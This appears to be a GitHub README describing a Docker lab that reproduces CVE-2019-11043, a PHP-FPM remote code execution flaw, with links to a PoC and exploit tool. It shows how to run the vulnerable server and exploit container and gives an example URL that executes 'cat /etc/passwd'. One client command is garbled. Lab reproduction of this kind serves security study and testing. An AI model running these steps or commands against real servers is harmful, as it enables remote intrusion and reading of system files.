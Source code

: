 # CVE-2019-11043

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-11043>


## PoC / Exploit
* <https://github.com/ypereirareis/docker-CVE-2019-11043>
 

## Environment used

* Ubuntu 20.04 LTS

## Requirements
* Web browser 

## Reproduction
* Server
    - Docker version
        ```shell script
        docker build -t cve-2019-11043 . 
        docker run -p 8080:80 -it cve-2019-11043
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        ```  

* Client
```shell script
docker build -t exploit exploit
docker run -it -docker run -it cve "http://SERVER_IP:PORT/script.php"
```      
Open a browser and go to <http://127.0.0.1:8080/script.php?a=><b>CMD</b> where 
CMD is terminal command. <br>
&emsp;&emsp; E.g.: <http://127.0.0.1:8080/script.php?a=cat%20/etc/passwd>

<p align="center">
  <img src="https://raw.githubusercontent.com/ypereirareis/docker-CVE-2019-11043/master/img/exploit.jpg">
</p>    

Note: It is recommended to refresh the page if the command's output is not showing. 

## References
* <https://github.com/neex/phuip-fpizdam>
